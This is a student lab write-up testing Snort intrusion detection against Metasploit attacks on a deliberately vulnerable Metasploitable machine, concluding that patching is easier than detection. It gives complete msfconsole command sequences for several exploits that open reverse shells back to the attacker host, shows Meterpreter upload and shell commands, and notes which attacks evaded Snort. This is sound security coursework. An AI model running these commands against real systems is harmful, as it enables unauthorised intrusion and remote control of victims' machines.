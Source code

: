 
# Is it easier to fix the application than to detect attacks?

A version of this essay with the correct formatting and references can be found here: https://github.com/JonQuxBurton/CyberSecurityBasewithF-Secure/blob/master/Project2/Is-it-easier-to-fix-the-application-than-to-detect-attacks.md

To research the question I setup the lab of Metasploit (a penetration testing tool), Metasploitable (a deliberately vulnerable system) and Snort (an Intrusion Detection System). 
I used Virtual Box running Metasploitable on a Windows 8 virtual machine (IP address: 192.168.0.6) and the Metasploit framework on an Ubuntu virtual machine (IP address: 192.168.0.4), which were both setup in a bridged network so they could communicate with each other.

In the Snort configuration file I enabled all the Community rules to give the best chance of detecting an attack.
I also installed Wireshark on the Snort machine, to inspect the traffic and check it was flowing.
I used the nmap command from the Ubuntu machine to test that Snort was creating alerts correctly, specifically:

sudo nmap -sP 192.168.0.6 -disable-arp-ping

With this setup I was able to find three attacks which produced Snort alerts and two attacks which did not, as follows.

The first attack which triggered a Snort alert was against ManageEngine, which is software for managing desktops and mobiles.
To trigger this alert I took the following steps:

Open MetaSploit console with the command sudo msfconsole. In the MetaSploit console enter the commands:

use exploit/windows/http/manageengine_connectionid_write

set payload windows/meterpreter/reverse_tcp

set rhost 192.168.0.6

set rport 8020

set lhost 192.168.0.4

set lport 443

exploit

This caused Snort to log the following alert:

03/18-14:39:10.347865  [**] [1:1054:14] SERVER-WEBAPP weblogic/tomcat .jsp view source attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 192.168.0.4:46771 -> 192.168.0.6:8020

So Snort has clearly detected the attack from the Web Application Attack rules.

The second attack which triggered a Snort alert was against SNMP (Simple Network Management Protocol).
This can be performed by using the following commands in the Metasploit console:

use auxiliary/scanner/snmp/snmp_enum

set rhost 192.168.0.6

set rport 8020 

set lhost 192.168.0.4

set lport 443

exploit

This triggered the Snort alerts:

03/18-16:16:13.000689  [**] [1:1411:19] PROTOCOL-SNMP public access udp [**] [Classification: Attempted Information Leak] [Priority: 2] {UDP} 192.168.0.4:43403 -> 192.168.0.6:161

03/18-16:16:13.000689  [**] [1:1417:17] PROTOCOL-SNMP request udp [**] [Classification: Attempted Information Leak] [Priority: 2] {UDP} 192.168.0.4:43403 -> 192.168.0.6:161

So Snort has detected the attack and recorded an Attempted Information Leak.

The third attack which triggered a Snort alert was against the MySQL database service. This can be performed by using the following commands in the Metasploit console:

use exploit/multi/mysql/mysql_udf_payload

set rhost 192.168.0.6

set rport 3306  

set lhost 192.168.0.4

set lport 443

exploit

This triggered the Snort alert:

03/18-14:59:00.631297  [**] [1:1394:17] INDICATOR-SHELLCODE x86 inc ecx NOOP [**] [Classification: Executable Code was Detected] [Priority: 1] {TCP} 192.168.0.4:40659 -> 192.168.0.6:3306

So Snort has detected the attack and recorded an Executable Code was Detected alert.

I was also able to evade Snort with two attacks.

The first was against Elasticsearch, which is a full-text search engine with a HTTP web interface. This can be performed by using the following commands in the Metasploit console:

use exploit/multi/elasticsearch/script_mvel_rce

set rhost 192.168.0.6

set rport 9200 

set lhost 192.168.0.4

set lport 443

exploit

This copies a JAR file onto the victims computer and executes it, this connects back to Metasploit to create a shell. This is the Meterpreter console and I was able to use it to run commands on the victim computer, such as:

> upload /temp/trojan.exe c:\\

Copy an executable to the victim computer (not a real trojan, just an empty file).

> shell

Open a shell on the victim computer, followed by the command

> msg vagrant "Hello"

Pop up a message on the vagrant users screen.

No Snort alerts were triggered.

The second attack which evaded Snort was against Ruby on Rails, which is a web application framework. This can be performed by using the following commands in the Metasploit console:

use exploit/multi/http/rails_web_console_v2_code_exec

set rhost 192.168.0.6

set rport 3000 

set lhost 192.168.0.4

set lport 443

exploit

I was then able to run the command:

> msg vagrant "Hello"

To pop up a message on the vagrant users screen.

No Snort alerts were triggered.

Though this shell seemed to be restricted as I was unable to get out of the directory C:\Program Files\Rails_Server
and running the command "dir" did then produce an alert:

03/18-15:16:46.820336  [**] [1:1292:12] INDICATOR-COMPROMISE directory listing [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.0.6:1502 -> 192.168.0.4:443

Though it is only of "Potentially Bad Traffic".

In conclusion I would say that the answer to the question "Is it easier to fix the application than to detect attacks?" is yes. I was able to evade an intruder detection system with two attacks, using a widely available tool, so a more experience attacker would be able to do this as well. 

A vulnerability in a application can be fixed by just patching it. The fix will be specific to the application and an application like Elasticsearch should never allow Remote Code Execution. Fixing this is a simpler problem than trying to detect an intruder. Doing this cannot be guaranteed to be effective one hundred percent of the time as an attacker can use advanced  techniques such as fragmentation and obfuscation.

Overall I found Snort to detect quite a lot of the attacks, but with the sensitivity turned up high there could also be a lot of false positives which would increase the chance of the alerts being ignored. Though I do think that an IDS could still be useful  as part of a defence in depth approach.

---

References

https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities

